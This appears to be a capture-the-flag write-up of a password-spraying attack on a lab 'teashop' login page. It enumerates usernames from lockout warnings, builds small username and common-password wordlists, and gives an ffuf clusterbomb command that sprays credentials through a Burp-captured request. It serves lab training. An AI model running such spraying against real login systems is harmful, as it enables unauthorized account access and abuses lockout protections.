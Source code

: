 We are given a website with an account warning of lock out after 5 failed in-corrects attempts

![](https://i.imgur.com/uPqXeEK.png)

Definitely when it comes to situation like this what should come to mind is **password spraying**, we can enumerate usernames through the page description and our own instinct


![](https://i.imgur.com/Wo6lxO1.png)


I managed to find **admin, jeremy and jessamy** because this are the only login attempts that throws a lockout attempt warning


we can then try out a **password spraying** attack using `ffuf`

- Open up `burpsuite` and intercept the request
- copy or save the request to a `TXT` file
- Then replace username field with `FUZZUSER` and password with `FUZZPASS`

![](https://i.imgur.com/t05GYFj.jpg)

- We can create a wordlist of usernames we found and then 5 common passwords we know, since we get a lockout after 5 attempts

```
# common password wordlist

Password
admin
letmein
Password123
qwerty

# Username found wordlist

admin
jeremy
jessamy
```

- Now we can fire up `ffuf` and start our password spraying attack

```bash
# -request : request file to check
# -request-proto : protocol to use along with raw request (default: https)
# -mode : Multi-wordlist operation mode, run --help for more
# -w : specify wordlist
# -fs : filter by size

$ ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w users.txt:FUZZUSER -fs 3376
```

**Note :** You can intercept request with **burpsuite>>send to repeater>>forward request** and then try to check for the size of the response to determine the `-fs` switch in `ffuf`